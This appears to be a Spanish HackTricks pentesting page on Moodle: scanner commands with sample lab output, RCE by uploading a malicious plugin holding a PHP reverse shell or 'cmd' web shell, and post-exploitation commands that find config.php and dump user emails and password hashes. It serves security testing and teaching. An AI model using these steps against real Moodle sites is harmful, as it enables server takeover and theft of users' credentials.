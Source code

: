 # Moodle

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

Si estás interesado en una **carrera de hacking** y en hackear lo imposible - ¡estamos contratando! (_se requiere fluidez en polaco escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

## Escaneos automáticos

### droopescan
```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:05.643539 elapsed)
```
### moodlescan

moodlescan es una herramienta de escaneo de vulnerabilidades específica para Moodle, una plataforma de aprendizaje en línea. Esta herramienta puede ayudar a identificar vulnerabilidades comunes en una instalación de Moodle, como la exposición de información confidencial, la ejecución de código remoto y la inyección de SQL.

Para utilizar moodlescan, primero debemos proporcionar la URL de la instalación de Moodle que deseamos escanear. Luego, la herramienta realizará una serie de pruebas automatizadas para identificar posibles vulnerabilidades. Es importante tener en cuenta que moodlescan no es una herramienta de explotación, sino que se utiliza para identificar posibles vulnerabilidades que luego pueden ser explotadas por un atacante.

Algunas de las pruebas que realiza moodlescan incluyen la identificación de archivos de configuración expuestos, la verificación de la versión de Moodle instalada y la búsqueda de vulnerabilidades conocidas en esa versión. También puede realizar pruebas de inyección de SQL y XSS en formularios y parámetros de URL.

Es importante tener en cuenta que moodlescan no es una herramienta completa de evaluación de vulnerabilidades y no debe ser la única herramienta utilizada para evaluar la seguridad de una instalación de Moodle. Sin embargo, puede ser una herramienta útil para identificar posibles vulnerabilidades y ayudar a los administradores de Moodle a tomar medidas para proteger su plataforma.
```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl
	
.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```
### CMSMap

CMSMap es una herramienta de código abierto que se utiliza para escanear sitios web y encontrar la versión del CMS que se está utilizando. También puede encontrar vulnerabilidades conocidas en el CMS y enumerar los usuarios y sus roles. CMSMap es compatible con varios CMS, incluyendo Moodle. 

Para escanear un sitio web con CMSMap, simplemente ejecute el siguiente comando:

```
cmsmap.py -t <URL>
```

Donde `<URL>` es la URL del sitio web que desea escanear. CMSMap también tiene varias opciones adicionales que se pueden utilizar para personalizar el escaneo.
```bash
pip3 install git+https://github.com/dionach/CMSmap.git
cmsmap http://moodle.example.com/<moodle_path>
```
### CVEs

Encontré que las herramientas automáticas son bastante **inútiles para encontrar vulnerabilidades que afecten a la versión de Moodle**. Puedes **verificar** si existen en [**https://snyk.io/vuln/composer:moodle%2Fmoodle**](https://snyk.io/vuln/composer:moodle%2Fmoodle)

## **RCE**

Necesitas tener el rol de **manager** y **puedes instalar plugins** dentro de la pestaña de **"Administración del sitio"**:

![](<../../.gitbook/assets/image (447).png>)

Si eres manager, es posible que aún necesites **activar esta opción**. Puedes ver cómo hacerlo en el PoC de escalada de privilegios de Moodle: [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Luego, puedes **instalar el siguiente plugin** que contiene el clásico shell reverso php de pentest-monkey (_antes de subirlo, necesitas descomprimirlo, cambiar la IP y el puerto del revshell y comprimirlo de nuevo_)

{% file src="../../.gitbook/assets/moodle-rce-plugin.zip" %}

O puedes usar el plugin de [https://github.com/HoangKien1020/Moodle\_RCE](https://github.com/HoangKien1020/Moodle\_RCE) para obtener un shell PHP regular con el parámetro "cmd".

Para acceder y lanzar el plugin malicioso, necesitas acceder a:
```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```
## POST

### Encontrar credenciales de la base de datos
```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```
### Volcado de credenciales desde la base de datos
```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```
<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

Si estás interesado en una **carrera de hacking** y en hackear lo imposible, ¡**estamos contratando!** (_se requiere fluidez en polaco, tanto hablado como escrito_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) **grupo de Discord** o al [**grupo de telegram**](https://t.me/peass) o **sígueme en Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

